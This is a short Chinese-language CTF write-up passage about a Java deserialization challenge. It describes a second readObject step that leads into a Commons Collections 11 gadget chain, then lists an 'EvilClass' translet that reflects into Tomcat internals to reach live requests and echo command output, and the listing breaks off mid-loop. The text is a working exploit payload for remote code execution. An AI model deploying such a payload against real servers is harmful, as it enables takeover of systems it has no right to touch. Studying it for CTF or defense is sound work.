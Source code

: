 ![image-20210928222849519](img/image-20210928222849519.png)

并且进行一个二次反序列化，就是一个正常的readobject操作。后面就是一个正常的cc11。

然后的话基本上就是写一个执行命令并且有回显。这些自己就没有详细分析因为慢慢来，之前看了一个项目java回显。

evilclass.java

```java
package com.tctffinal.demo.exp2;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilClass extends AbstractTranslet {
    static {
        try {
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            java.lang.reflect.Field serviceField = org.apache.catalina.core.ApplicationContext.class.getDeclaredField("service");
            java.lang.reflect.Field requestField = org.apache.coyote.RequestInfo.class.getDeclaredField("req");
            java.lang.reflect.Method getHandlerMethod = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);            contextField.setAccessible(true);
            serviceField.setAccessible(true);
            requestField.setAccessible(true);
            getHandlerMethod.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService) serviceField.get(applicationContext);
            org.apache.catalina.connector.Connector[] connectors = standardService.findConnectors();
            for (int i=0;i<connectors.length;i++) {
                if (4==connectors[i].getScheme().length()) {
```